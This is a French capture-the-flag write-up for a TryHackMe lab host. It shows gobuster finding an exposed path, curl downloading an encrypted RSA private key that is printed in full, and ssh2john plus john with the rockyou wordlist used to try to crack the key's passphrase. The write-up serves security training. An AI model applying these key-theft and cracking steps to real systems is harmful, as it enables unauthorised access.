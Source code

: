 On trouve avec gobuster un lien  http://enpass.thm:8001/web/resources/infoseek/configure/key.  

**Name The Path**

Le nom du chemin est : /web/resources/infoseek/configure/key

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl  http://enpass.thm:8001/web/resources/infoseek/configure/key
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3A3DBCAED659E70F7293FA98DB8C1802

V0Z7T9g2JZvMMhiZ6JzYWaWo8hubQhVIu3AcrxJZqFD0o2FW1K0bHGLbK8P+SaAc
9plhOtJX6ZUjtq92E/sinTG0wwc94VmwiA5lvGmjUtBjah4epDJs8Vt/tIpSTg8k
28ef1Q8+5+Kl4alJZWNF0RVpykVEXKqYw3kJBqQDTa4aH75MczJGfk4TY5kdZFO3
tPVajm46V2C/9OrjOpEVg2jIom+e4kJAaJdB7Jr7br3xoaYhe5YEUiSGM8YD7SUZ
azrAFkIoZ72iwdeVGR7CWgdwmDWw/nFvg6Ug/fsAGobDCf2CtwLEUtLL/XMpLvEb
AS0Wic1zPjCCGaVSyijImrh3beYgWbZzz7h5gmqfoycVKS4S+15tFZBZRA0wH05m
XfDw6It7ZZtP73i8XoOAg1gAbv6o/vR3GkF798bc0fV4bGJrpQ9MIEpOphR1SNuI
x0gjtCfIyYjwJmwlWeNmELyDAO3oIxYZBSydHko0EUBnbeOw+Jj3xvEdNO3PhZ7G
3UPIoZMH4KAdcXy15tL0MYGmXyOx+oHuDEPNHxkR3+lJ1C+BXJwtrSXU+qz9u/Sz
qavHdwzxc8+HiiWcGxN3LEdgfsKg/TKXA5X/TE7DnjVmhsL4IBCOIyPxF8ClXok7
YMwNymz269J85Y73gemMfhwvGC18dNs0xfYEMUtDWbrwJDsTezdBmssMvOHSjpr5
w+Z+sJvNabMIBVaQs+jqJoqm8EARNzA40CBQUJJdmqBfPV/xSmHzNOLdTspOShQN
5iwP3adKdq+/TCp2l8SaXQedMIf6DCPmcuUVrYK4pjAr7NzFVNUgqbYLT1J0thGr
gQBk+0RlQadN7m7BW835YeyvN0GKM35f7tUylJHcfTdjE832zB24iElDW483FvJy
RhM+bOBts0z+zVUx0Ua+OEM1sxwAAlruur4+ucCPFV1XrWYWfLo3VXvTbhPiZcXF
fmOJKaFxBFjbARQMR0IL5CH8tPz2Kbeaepp2sUZcgDZSHWAbvg0j8QVkisJJ/H7G
Vg6MdIRf+Ka9fPINxyrWnxDoIVqP5/HyuPjrmRN9wMA8lWub8okH9nlJoss3n8j5
xom80wK197o29NN6BWEUuagXSHdnU2o+9L991kScaC9XXOuRgqFrDRFBUUn1VOWJ
3p+lTLNscC+eMP0Be3U6R85b/o3grdb610A1V88pnDWGYa/oVgXelUh1SsHA0tuI
om679j9qdIP7O8m3PK0Wg/cSkjdj0vRxT539tAY1+ci99FXnO1Touo7mlaA4eRTK
LQLmzFcucQODcm3FEy18doT2llDTyloD2PmX+ipzB7mbdqw7pUXPyFTnGZoKrnhM
27L629aKxoM19Mz0xP8BoQMcCOCYklIw1vkaiPgXAYkNXXtBzwWn1SFcU57buaED
CJCnh3g19NZ/VjJ1zERJLjK1U1l/RtlejISAB35AYFUnKDG3iYXLRP3iT/R22BMd
z4uSYN10O1nr4EppAOMtdSdd9PJuwxKN/3nJvymMf3O/MmC/8DJOIyadZzEw7EbP
iU5caghFrCuuhCagiwYr+qeKM3BwMUBPeUXVWTCVmFkA7jR86XTMfjkD1vgDFj/8
```

On découvre que c'est une clef privée.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl  http://enpass.thm:8001/web/resources/infoseek/configure/key > key -s
tim@kali:~/Bureau/tryhackme/write-up$ python2 /usr/share/john/ssh2john.py key > hash
tim@kali:~/Bureau/tryhackme/write-up$ john hash -wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates left, minimum 4 needed for performance.
0g 0:00:00:02 DONE (2021-10-05 13:08) 0g/s 6374Kp/s 6374Kc/s 6374KC/sa6_123..*7¡Vamos!
Session completed
```
